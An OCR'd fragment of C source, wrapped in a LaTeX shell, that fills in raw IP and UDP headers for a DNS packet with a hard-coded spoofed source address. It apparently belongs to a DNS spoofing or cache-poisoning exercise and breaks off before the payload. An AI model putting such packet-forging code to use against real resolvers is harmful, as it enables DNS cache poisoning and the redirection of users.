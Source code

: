 \documentclass[a4paper,12pt]{article}
\begin{document}
{		
		if(sd<0 ) // if socket fails to be created 
		printf("socket error\n");
		
		
		    // The source is redundant, may be used later if needed
		
		    // The address family
		
		    sin.sin_family = AF_INET;
		
		    din.sin_family = AF_INET;
		
		    // Port numbers
		
		    sin.sin_port = htons(33333);
		
		    din.sin_port = htons(53);
		
		    // IP addresses
		
		    sin.sin_addr.s_addr = inet_addr(argv[2]); // this is the second argument we input into the program
		
		    din.sin_addr.s_addr = inet_addr(argv[1]); // this is the first argument we input into the program
		
		     
		
		    // Fabricate the IP header or we can use the
		
		    // standard header structures but assign our own values.
		
		    ip->iph_ihl = 5;
		
		
		    ip->iph_ver = 4;
		
		
		    ip->iph_tos = 0; // Low delay
		
		
		    unsigned short int packetLength =(sizeof(struct ipheader) + sizeof(struct udpheader)+sizeof(struct dnsheader)+length+sizeof(struct dataEnd)); // length + dataEnd_size == UDP_payload_size
		
		     ip->iph_len=htons(packetLength);
		
		    ip->iph_ident = htons(rand()); // we give a random number for the identification#
		
		
		    ip->iph_ttl = 110; // hops
		
		    ip->iph_protocol = 17; // UDP
		
		    // Source IP address, can use spoofed address here!!!
		
		    ip->iph_sourceip = inet_addr("199.43.135.53");
		
		    // The destination IP address
		
		    ip->iph_destip = inet_addr(argv[2]);
		
		     
		
		    // Fabricate the UDP header. Source port number, redundant
		
}
\end{document}
